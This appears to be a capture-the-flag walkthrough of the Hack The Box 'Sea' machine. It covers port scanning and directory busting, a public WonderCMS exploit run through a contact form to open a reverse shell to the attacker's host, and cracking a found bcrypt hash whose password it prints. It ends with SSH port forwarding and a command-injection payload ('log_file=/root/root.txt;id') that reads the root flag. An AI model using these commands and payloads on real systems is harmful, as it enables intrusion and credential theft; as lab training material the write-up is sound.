

# Sea walkthrough

## Connecting to Sea

Sea IP address: 10.10.11.28
Sea domain: sea.htb

Attacker IP address: 10.10.16.2

Command to connect to VPN: `sudo openvpn VPN` where VPN is downloaded from the HTB website. This command assumes you are in the directory where the VPN is saved.

## Scanning and Enumeration

Tools used: nmap, ffuf
Wordlists used: /usr/share/wordlists/dirb/big.txt, /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt

### Nmap scan

Commands: `nmap --min-rate 3000 -p- -A 10.10.11.28`

1. The command above is used to find out which ports are open in the target/victim machine. Flags used and their meanings:
    1. min-rate: specifies specifically how many packets to send out
    2. -p-: scans all 65535 ports
    3. -A: enables OS detection and version detection
2. Results of the nmap scan is as below:

    ```bash
    nmap --min-rate 3000  -A -p- 10.10.11.28
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-16 14:49 +08
    Nmap scan report for 10.10.11.28
    Host is up (0.028s latency).
    Not shown: 65533 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Sea - Home
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.94SVN%E=4%D=12/16%OT=22%CT=1%CU=37865%PV=Y%DS=2%DC=T%G=Y%TM=675
    OS:FCDA0%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=105%TI=Z%CI=Z%TS=A)SEQ(
    OS:SP=101%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=102%GCD=1%ISR=105%TI=Z%C
    OS:I=Z)OPS(O1=M542ST11NW7%O2=M542ST11NW7%O3=M542NNT11NW7%O4=M542ST11NW7%O5=
    OS:M542ST11NW7%O6=M542ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=F
    OS:E88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M542NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
    OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%
    OS:Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=
    OS:A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=
    OS:Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%
    OS:T=40%CD=S)

    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE (using port 53/tcp)
    HOP RTT      ADDRESS
    1   76.33 ms 10.10.16.1
    2   14.74 ms 10.10.11.28

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 45.86 seconds
    ```

    Based on the results above, we can see that port 22 (SSH) and port 80 (HTTP) are open. Since SSH is most probably secure and does not have any active exploits, the first thing to check out will be port 80. We can do several things on port 80, such as:
    1. visiting the IP address itself (will discuss further in the next section),
    2. perform directory busting (commands 2, 3 and 4 below)

### Directory busting

Commands:

1. `ffuf -u http://sea.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -fc 403,500`

   ffuf is a tool that is used for directory busting. The flags that are used above are:
      1. -u: to specify the URL to test
      2. -w: to specify the wordlist to use
      3. -fc: to filter out the specified HTTP response codes

    The results showed that there is a `contact.php` and multiple directories from the above command, which will be further drilled down using commands 3 and 4.

2. `ffuf -u http://sea.htb/themes/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -fc 403,500`

    This is similar to the command used in command 2.

3. `ffuf -u http://sea.htb/themes/bike/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -fc 403,500`

    In Command 4, there were some interesting results that were returned. The results are as below:

    ```text

    /'___\  /'___\           /'___\
    /\ \__/ /\ \__/  __  __  /\ \__/
    \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
    \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
    \ \_\   \ \_\  \ \____/  \ \_\
    \/_/    \/_/   \/___/    \/_/

    v2.1.0-dev
    ________________________________________________

    :: Method           : GET
    :: URL              : http://sea.htb/themes/bike/FUZZ
    :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
    :: Filter           : Response status: 403,500
    ________________________________________________

    README.md               [Status: 200, Size: 318, Words: 40, Lines: 16, Duration: 18ms]
    sym/root/home/          [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 21ms]
    version                 [Status: 200, Size: 6, Words: 1, Lines: 2, Duration: 18ms]
    ```

    Based on the results from ffuf, there is a README.md and version file. Looking into the README.md file, it seems that the web application is running WonderCMS; and looking into the version file, it seems that the version of WonderCMS is 3.2.0.

    
    <caption><i>README indicating that WonderCMS is being used in the web application</i></caption>

    
    <caption><i>WonderCMS version</i></caption>

    Doing a quick Google search on the WonderCMS version, there seems to be a vulnerability and exploits available in GitHub. The specific exploit that was used in this walkthrough is by duck-sec: [CVE-2023-41425](https://github.com/duck-sec/CVE-2023-41425).

### Visiting the website

When first visiting the website using the IP address, the website is just a simple page that just shows information about a type of event. However, going into the developer tools, it seems that there is a domain name for the website, as highlighted in the screenshot below.


Since we now know the domain for this website, we can add it to `/etc/host` so that we can use `sea.htb` to visit the website in the future instead of using the IP address every time. This can be achieved using any text editor available.

Once that has been done, we can straight away visit the `contact.php` that was found earlier. In the page, it seems that there is a form that allows us to register for an event. Based on duck-sec's explanation on the detected WonderCMS exploit, we will be using this page to deliver our payload and to establish a reverse connection to the victim machine.

## Exploitation

As mentioned above, we will be using duck-sec's exploit and the `contact.php` to establish a reverse shell on the victim machine. To do this, we can just execute `python3 exploit.py http://sea.htb/loginURL -lh 10.10.16.2 -lp 4242 -sh 10.10.16.2 -sp 8080` where `-lh` and `-lp` both points to the reverse connection that will be established while `-sh` and `-sp` both points to the IP address and port that will be hosting the payload. After executing the command, we just need to follow the instructions that are later printed on stdout.

After establishing a reverse connection, the shell we can explore the `/var/www` directory but not the other users as we currently do not have the permission to do so. Going through the files, one interesting file is the `database.js`, in it, we find a hash, `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`, which is a bcrypt hash, and saved it to a file named `found_credentials.txt`. We can crack this hash using any cracking tools available, but I used `hashcat`. The command used is `hashcat -a 0 -m 3200 found_credentials.txt /usr/share/wordlists/rockyou.txt` and the cracked hash is **`mychemicalromance`**.

After retrieving this password, we can now try it against the other user accounts that we found in the machine, specifically `amay` and `geo`. We can try it by connecting to SSH. So the command used is `ssh USER@sea.htb`. After trial and error, the password works for the user `amay`. Once logged into the user `amay`, the first thing I did was to download and execute `linpeas.sh`. The results from `linpeas.sh` displayed several vulnerabilities such as PwnKit, sudo baronedit and CVE-2021-3560. However, none of these exploits worked.

After further examination of the results from `linpeas.sh`, it seems that port 8080 is open and is listening for connections but this port wasn't found in the nmap scan. It seems that port 8080 is only open for local connections. So, we can configure port forwarding using ssh itself and the command used to do this in my case is `ssh -L 8888:localhost:8080 amay@sea.htb`. Once connected, we can now visit the website served at port 8080 through port 8888 in our own machine (attacker's machine). This new page requested for login credentials and we can use the `amay:mychemicalromance` combination and it was successful.

In this page, it allows the user to view access and auth logs. The request made were through a parameter `log_file`. Further fuzzing on this parameter showed that we can use this parameter to display the contents of a file that required elevated privileges. In the end, the crafted payload for this `log_file` is: `log_file=/root/root.txt;id`. The root flag can be found in the response body.
